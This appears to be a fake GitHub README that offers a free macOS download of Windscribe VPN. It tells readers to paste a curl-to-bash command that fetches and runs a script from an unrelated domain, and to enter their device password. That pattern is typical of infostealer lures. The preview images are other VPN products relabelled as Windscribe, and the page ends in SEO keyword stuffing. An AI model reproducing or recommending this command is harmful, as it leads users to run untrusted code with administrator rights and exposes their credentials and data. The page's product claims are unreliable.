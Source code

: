 # Windscribe VPN — Free Download for Mac OS 🛡️

Windscribe is a powerful VPN solution designed to secure your online activity and unlock restricted content. Follow the instructions below to install Windscribe on your Mac for free and enjoy private browsing with ease.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)]()

If the download button doesn’t work, follow the step-by-step terminal installation guide below.

## 📦 How to Install Windscribe for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Windscribe

- 🛡️ **Enhanced Privacy**: Protect your online identity with strong encryption and anonymous browsing.
- 🌍 **Global Access**: Bypass geo-restrictions to access content from anywhere in the world.
- ⚡ **Fast Speeds**: Enjoy high-speed connections for streaming and browsing without lag.
- 🔒 **Secure Connections**: Stay safe on public Wi-Fi with Windscribe’s robust security protocols.
- 🧩 **User-Friendly Interface**: Intuitive design makes it easy to connect and customize settings.
- 📱 **Multi-Device Support**: Use Windscribe across multiple devices with a single account.

---

## About Windscribe

Windscribe is a leading VPN service that prioritizes user privacy and security. By leveraging advanced encryption protocols, Windscribe ensures your online activities remain private, making it an ideal choice for users seeking a **free VPN for Mac**. Whether you're browsing at home or on public Wi-Fi, Windscribe’s robust security features protect your data from prying eyes. Its easy-to-use interface simplifies the process of securing your connection, even for beginners.

With **Windscribe free download**, you gain access to servers in multiple countries, allowing you to bypass geo-restrictions and access content seamlessly. Whether it’s streaming your favorite shows or accessing blocked websites, Windscribe empowers users with unrestricted internet access. The free version offers generous data limits, making it a top choice for those looking for a **Mac VPN free** solution without compromising on quality.

The software’s lightweight design ensures minimal impact on your Mac’s performance, making it perfect for users who value both speed and security. Windscribe’s commitment to **secure VPN for Mac** means you can browse with confidence, knowing your data is shielded from hackers and trackers. Its compatibility with macOS ensures a smooth installation process, whether you choose the .dmg file or terminal-based setup.

Windscribe stands out for its versatility, offering both free and premium plans to suit different needs. The **download Windscribe for Mac** process is straightforward, and the app integrates seamlessly with macOS, providing a hassle-free experience. From casual browsing to protecting sensitive information, Windscribe delivers a reliable and efficient VPN solution.

### Why Choose Windscribe?

Windscribe’s key advantage lies in its balance of accessibility and security. Unlike many free VPNs, it offers a generous data allowance, fast connection speeds, and a user-friendly interface, making it a top pick for **VPN for Mac free** users. Its no-logs policy ensures your browsing history remains private, while features like ad-blocking and firewall protection enhance your online experience. Whether you’re a student, professional, or casual user, Windscribe’s **Windscribe free download** provides a secure and seamless way to protect your digital life.

---

## 🖼 Preview

![Windscribe Dashboard](https://www.security.org/app/uploads/2023/12/NordVPN-on-Mac.png)  
*Windscribe’s sleek dashboard for easy VPN management*

![Server Selection](https://vpncdn.protonweb.com/image-transformation/?s=s&image=Zy_O_Zzq8j_Q_Ar_T0_Fe_D_free_unlimited_vpn_for_mac_73a8580dd3.png)  
*Choose from global servers to bypass restrictions*

![Connection Status](https://vpncdn.protonweb.com/image-transformation/?s=s&image=Zy_OR_Jq8j_Q_Ar_T0_F_Ua_an_easy_to_use_vpn_app_for_mac_1e02d60903.png)  
*Real-time connection status for secure browsing*

---

## 🔍 Tags

Windscribe free download, Windscribe download, download Windscribe for Mac, Mac VPN free, free VPN for macOS, Windscribe macOS download, Windscribe download mac, Windscribe download mac os, Windscribe free mac, Windscribe mac download, download Windscribe mac, windscribe free, windscribe for mac, windscribe download free
